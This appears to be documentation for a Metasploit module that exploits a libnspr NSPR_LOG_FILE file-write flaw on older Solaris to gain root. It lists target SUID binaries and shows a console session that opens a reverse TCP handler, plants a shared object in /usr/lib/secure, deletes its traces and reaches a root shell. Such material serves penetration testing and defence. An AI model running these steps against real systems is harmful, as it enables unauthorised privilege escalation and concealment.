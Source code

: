 ## Description

  This module exploits an arbitrary file write vulnerability in the
  Netscape Portable Runtime library (libnspr) on unpatched Solaris systems
  prior to Solaris 10u3 which allows users to gain root privileges.

  libnspr versions prior to 4.6.3 allow users to specify a log file with
  the `NSPR_LOG_FILE` environment variable. The log file is created with
  the privileges of the running process, resulting in privilege escalation
  when used in combination with a SUID executable.

  This module writes a shared object to the trusted library directory
  `/usr/lib/secure` and runs the specified SUID binary with the shared
  object loaded using the `LD_LIBRARY_PATH` environment variable.


## Vulnerable Application

  This module has been tested successfully with [libnspr](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR)
  version 4.5.1 on Solaris 10u1 (01/06) (x86) and Solaris 10u2 (06/06) (x86).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/libnspr_nspr_log_file_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SUID_PATH**

  Path to suid executable (must be linked to a vulnerable version of `libnspr4.so`)
  (default: `/usr/bin/cancel`)

  Some useful example SUID executables:

  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

  ```
  msf > use exploit/solaris/local/libnspr_nspr_log_file_priv_esc 
  msf exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created file /usr/lib/secure/libldap.so.5
  [*] Writing '/tmp/.8ENHI80b/.z6luu3Y1JC.c' (166 bytes) ...
  [*] Writing '/tmp/.8ENHI80b/.1hC6r9F' (175 bytes) ...
  [*] Executing payload...
  [+] Deleted /usr/lib/secure/libldap.so.5
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC.c
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC
  [!] Tried to delete /usr/lib/secure/libldap.so.5, unknown result
  [+] Deleted /tmp/.8ENHI80b/.1hC6r9F
  [+] Deleted /tmp/.8ENHI80b

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  ```

